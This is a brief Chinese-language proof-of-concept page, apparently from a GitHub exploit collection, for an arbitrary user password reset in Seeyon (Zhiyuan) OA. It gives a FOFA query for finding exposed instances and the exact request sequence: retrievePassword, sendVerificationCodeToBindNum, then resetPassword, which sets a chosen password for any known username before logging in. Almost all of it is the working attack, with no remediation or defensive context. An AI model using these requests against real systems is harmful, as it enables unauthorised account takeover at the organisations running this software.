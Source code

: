 ## 致远前台任意用户密码修改

## fofa
```
app="致远互联-OA"
```

## 漏洞复现
前提需要知道用户名

`http://xx.xx.xx.xx/seeyon/personalBind.do?method=retrievePassword`

<img width="1057" alt="image-20240301101704702" src="https://github.com/wy876/POC/assets/139549762/9562a165-151e-421c-a26c-7e09bf199368">

`http://xx.xx.xx.xx/seeyon/personalBind.do?method=sendVerificationCodeToBindNum&type=validate&origin=zx`

<img width="1047" alt="image-20240301101722837" src="https://github.com/wy876/POC/assets/139549762/c1ea9e86-1a92-4aaa-945d-a1a45c83509e">

修改密码为`1qaz@WSX`

`http://xx.xx.xx.xx/seeyon/individualManager.do?method=resetPassword&nowpwd=1qaz@WSX`

<img width="1217" alt="image-20240301101802224" src="https://github.com/wy876/POC/assets/139549762/5375cccc-0a9b-4ae0-8e3e-177aa67290b1">

最后使用修改的密码登录

<img width="1054" alt="image-20240301101840756" src="https://github.com/wy876/POC/assets/139549762/261afdc9-a728-4302-96a6-e0e19d02d338">
